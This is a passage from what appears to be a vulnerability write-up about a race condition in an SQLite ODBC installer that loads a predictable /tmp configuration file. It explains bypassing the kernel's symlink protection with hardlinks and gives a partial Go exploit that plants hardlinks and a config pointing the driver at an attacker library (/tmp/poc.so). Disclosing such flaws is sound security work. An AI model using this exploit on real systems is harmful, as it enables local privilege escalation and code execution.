 ```
	fi
[...]
```

As you can see, the temporary configuration file is saved using the following name `/tmp/sqliteodbc$$` (where $$ is the PID of the process).

As the configuration file is using a predictable name, we can try to perform a race in order to write new contents before the file is loaded by `odbcinstall`.

The PID of a process is incremental, so we just have to pre-create a bunch of *symlinks* in the `/tmp` directory that target our payload.

We first mounted a filesystem as read-only, and placed our payload in this filesystem. This way, if the installer tries to change the file content, it will fail.

However, here's the issue:

Modern kernels have implemented a security mechanism, `fs.protected_symlinks`, that disallow following symlinks to other users, when placed in world-writable directories (like /tmp):

```
$ ln -s /etc/passwd /tmp/hello
$ sudo cat /tmp/hello
cat: /tmp/hello: Permission denied
```

So we could not use *symlinks* to perform this attack. However, we managed to bypass this security mechanism by using *hardlinks*.

*Hardlinks* consist in just an "alternate" name for the file. Unlike symlinks, they only work from the same filesystem they were created on, so our "read-only" filesystem trick would not work.

However, we could always attempt to win the race against the installer process, and override the file content. We created the following Golang exploit code, that works nearly all the time.

```go
package main

import (
	"fmt"
	"os"
)

func SpreadHardlinks(pid int) {
	maxPid := pid + 100
	fmt.Println("[+] Creating hardlinks...")
	for pid++ ; pid < maxPid; pid++ {
		target := fmt.Sprintf("/tmp/sqliteodbcinst%d", pid)
		err := os.Link("/tmp/race.ini", target)
		if err != nil {
			panic(err)
		}
		fmt.Printf("[~] Created hardlink : %s\n", target)
	}
}

func main(){
	const poc = `
[default]
Description=XYZ ODBC
Driver=/tmp/poc.so
Driver64=/tmp/poc.so
Setup=/tmp/poc.so
Setup64=/tmp/poc.so
Threading=2
FileUsage=1
`
```
